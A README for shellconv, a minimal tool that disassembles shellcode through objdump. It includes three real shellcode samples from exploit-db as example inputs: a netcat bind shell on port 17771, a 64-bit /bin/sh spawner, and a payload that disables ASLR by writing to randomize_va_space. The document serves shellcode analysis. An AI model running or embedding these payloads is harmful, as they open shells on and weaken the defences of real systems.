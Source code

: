 # shellconv
Small tool for disassembling shellcode (using objdump)<br/>
<pre>
Use: ./shellconv.py [inFile] [arch:optional] [outFile:optional]
arch: defined as in objdump -m, default: i386
</pre>
<hr/>
<b>DISCLAIMER</b><br/>
This tool is intended to be minimalistic.<br/>
It may not give proper results in case of complicated/obfuscated shellcode. In such cases, please refer to tools of appropriate complexity.<br/>
<i>If you still think, that I should develop this tool further, and make it a fully-fledged app, feel free to write me an e-mail :) [hasherezade-at-op.pl]</i><hr/>
examples:
-
1) https://www.exploit-db.com/exploits/36921/<br/>
expdb1.shc :
<pre>
"\x31\xc0\x31\xd2\x50\x68\x37\x37\x37\x31\x68\x2d\x76\x70\x31\x89\xe6\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x68\x2d\x6c\x65\x2f\x89\xe7\x50\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69\x6e\x89\xe3\x52\x56\x57\x53\x89\xe1\xb0\x0b\xcd\x80";
</pre>
![](http://hasherezade.net/misc/pics/shellconv/expdb1-32b.png)
<br/><br/>
2) https://www.exploit-db.com/exploits/36858/<br/>
expdb1_64.shc :
<pre>
  char *shellcode =3D "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56=
\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05";
</pre>
![](http://hasherezade.net/misc/pics/shellconv/expdb1-64b.png)
<br/><br/>
3) https://www.exploit-db.com/exploits/36637/<br/>
expdb3.shc :
<pre>
char shellcode[] = "\xeb\x22\x5b\x31\xc0\x88\x43\x23\x6a\x05\x58"
"\x6a\x02\x59\xcd\x80\x89\xc3\x6a\x04\x58\xeb\x36\x59\x6a\x02\x5a
\xcd\x80\x6a\x01\x58\x31\xdb\xcd\x80\xe8\xd9\xff\xff\xff\x2f\x70
\x72\x6f\x63\x2f\x73\x79\x73\x2f\x6b\x65\x72\x6e\x65\x6c\x2f\x72
\x61\x6e\x64\x6f\x6d\x69\x7a\x65\x5f\x76\x61\x5f\x73\x70\x61\x63
\x65\x58\xe8\xc5\xff\xff\xff\x30\x0a";
</pre>
![](http://hasherezade.net/misc/pics/shellconv/expdb3.png)
